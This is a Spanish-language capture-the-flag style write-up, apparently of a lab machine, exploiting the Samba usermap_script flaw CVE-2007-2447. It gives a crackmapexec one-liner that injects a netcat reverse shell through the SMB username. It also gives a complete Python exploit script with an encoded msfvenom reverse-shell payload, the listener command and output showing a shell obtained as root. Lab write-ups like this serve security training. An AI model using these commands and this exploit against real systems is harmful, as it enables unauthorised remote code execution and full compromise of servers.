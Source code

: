 ## Explotación
Gracias a la anterior enumeración encontramos que es vulnerable a `CVE-2007-2447` asi que vamos a explotarlo de diferentes formas.

### Samba - CVE-2007-2447
La primera forma de la que vamos a explotar esta vulnerabilidad es con crackmapexec:
```bash=
cme smb 10.10.10.3 -u '/=`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 53 >/tmp/f`' -p ''
```

De la segunda forma que vamos que explotar es creando un exploit para aprovecharnos de esta vulnerabilidad.
Hemos subido el exploit a github para que podais utilizarlo.
https://github.com/xlcc4096/exploit-CVE-2007-2447
```python=
#!/usr/bin/python3
# Usage: python3 exploit-CVE-2007-2447.py <HOST> <PORT>
# Made by @xlcc @J4ck21

from smb.SMBConnection import SMBConnection
import sys

# msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.3 LPORT=31337 -f python
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x64"
buf += b"\x78\x63\x78\x70\x79\x77\x3b\x20\x6e\x63\x20\x31\x30"
buf += b"\x2e\x31\x30\x2e\x31\x34\x2e\x33\x20\x33\x31\x33\x33"
buf += b"\x37\x20\x30\x3c\x2f\x74\x6d\x70\x2f\x64\x78\x63\x78"
buf += b"\x70\x79\x77\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68"
buf += b"\x20\x3e\x2f\x74\x6d\x70\x2f\x64\x78\x63\x78\x70\x79"
buf += b"\x77\x20\x32\x3e\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74"
buf += b"\x6d\x70\x2f\x64\x78\x63\x78\x70\x79\x77"

server_ip=sys.argv[1]
port=int(sys.argv[2])

user="/=`nohup " +  buf.decode() + "`"
password=""
client_machine_name=""
server_name=""
domain_name=""

conn = SMBConnection(user, password, client_machine_name, server_name, domain=domain_name, use_ntlm_v2=True, is_direct_tcp=True)

conn.connect(server_ip,port)
```
https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

Ejecutamos el script de la siguiente manera:
```bash=
python3 exploit-CVE-2007-2447.py 10.10.10.3 445
```
Ponemos a la escucha el puerto 31337 con netcat:
NOTA: Tu tendras que poner a la escucha el puerto que hayas especificado a la hora de generar el payload.
```bash=
nc -lnvp 31337
listening on [any] 31337 ...
```
Ejecutamos el script y ya somos root :)
```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 50277
id
```